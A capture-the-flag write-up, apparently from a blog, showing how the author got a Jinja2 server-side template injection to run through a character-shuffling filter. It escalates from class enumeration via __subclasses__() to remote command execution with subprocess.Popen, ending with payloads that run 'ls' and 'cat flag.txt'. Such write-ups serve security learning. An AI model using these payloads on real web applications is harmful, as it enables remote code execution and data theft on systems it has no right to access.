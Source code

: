 ```python
final_str = ""
for char_i in range(len(target)):
    final_str += target[index_map[char_i]]
  
print(final_str)
```

In the case of the target `\{\{ dict }}`, the shuffled string is:
```  ticd}\{\{}```. Passing this through the website results in `<class 'dict'>` being printed out, implying a successful injection:
![assets/images/blog/week9/successful-dict-execution.png](assets/images/blog/week9/successful-dict-execution.png)

Now that we can predictably inject code, now we need to decide on an input. Poking around [Hacktricks Jinja2 SSTI page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), it looks like it is possible to access all the functions that the python interpreter has access to using the payload `\{\{ dict.__base__.__subclasses__() }}`. To my understanding, `dict` is a child class of some generic class, who's children is absolutely every other class in python. Injecting this using the payload `\{_)_utc\{(scas____bl_i.se\}e}dsb.as_` returns a massive list of class that we have at our disposal, including `subprocess.Popen`, which allows for remote code execution:
![assets/images/blog/week9/all-classes.png](assets/images/blog/week9/all-classes.png)

We can take this string and use a python interpreter to get how many items are in it:
```python
>>> string = "[<class 'type'>, <class 'async_generator'>]..."
>>> classes = string.split(",")
>>> len(classes)
551
```

Luckily, `subprocess.Popen` is the last class in the array, so we can construct a simple payload to access it, run a command, and return the output: 
```python
\{\{dict.__base__.__subclasses__()[550]('ls',shell=True,stdout=-1).communicate()}}
```

Shuffled, this is the payload `5_c0e)sssde_.'._]muthrlsc[_u'_Tt)(-=oecs,bdu{n,bs}ia_}l({o1_sitsme_c.e=)utaa(5ll`. Executing this payload returns a successful execution!
![assets/images/blog/week9/successful-popen.png](assets/images/blog/week9/successful-popen.png)

Let's cat out that flag.txt file by modifying the payload: 
```python
\{\{dict.__base__.__subclasses__()[550]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```
